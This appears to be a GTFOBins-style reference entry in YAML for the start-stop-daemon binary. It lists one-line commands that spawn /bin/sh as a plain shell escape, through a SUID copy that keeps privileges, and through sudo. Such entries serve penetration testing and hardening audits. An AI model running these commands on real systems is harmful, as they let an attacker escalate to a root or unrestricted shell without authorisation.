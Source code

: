 functions:
  shell:
    - code: start-stop-daemon -n $RANDOM -S -x /bin/sh
  suid:
    - code: ./start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
  sudo:
    - code: sudo start-stop-daemon -n $RANDOM -S -x /bin/sh
---
